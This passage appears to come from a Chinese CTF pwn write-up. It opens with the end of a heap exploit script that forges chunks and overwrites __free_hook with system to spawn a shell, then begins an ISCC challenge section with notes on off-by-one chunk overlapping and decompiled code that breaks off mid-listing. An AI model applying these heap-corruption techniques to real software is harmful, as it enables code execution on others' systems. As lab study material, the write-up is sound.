 ```plain

pl=p64(0)+p64(0xf1)+p64(heap_base+0x9a0)+p64(heap_base+0x9a0)
pl=pl.ljust(0xf0,'\x00')
pl+=p64(0xf0)
edit(7,pl)
delete(8)

for i in range(7):
    add(i,0xf8,'')

add(9,0xf8,'')
delete(1)
delete(9)

pl = p64(0)+p64(0x100)+p64(free_hook)
edit(7,pl)
add(1,0xf8,'/bin/sh\x00')
add(9,0xf8,p64(system))

sla('>> ',str(2))
sla('which note do you want delete?\n',str(1))
itr()
```

## ISCC 线下赛 - 私地

glibc2.23 : off by one + chunk Overlapping  
off by one 向下合并：size and prev size inuse  
合并只需要改 chunk 一步就能成功，然后 free 后就能释放，释放后再次申请就有重叠的 chunk 了

### ida

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[4]; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  while ( 1 )
  {
    menu();
    read(0, buf, 4uLL);
    switch ( atoi(buf) )
    {
      case 1:
        create_user();
        break;
      case 2:
        edit_user();
        break;
      case 3:
        show_user();
        break;
      case 4:
        delete_user();
        break;
      case 5:
        exit(0);
      default:
        puts("Invalid Choice");
```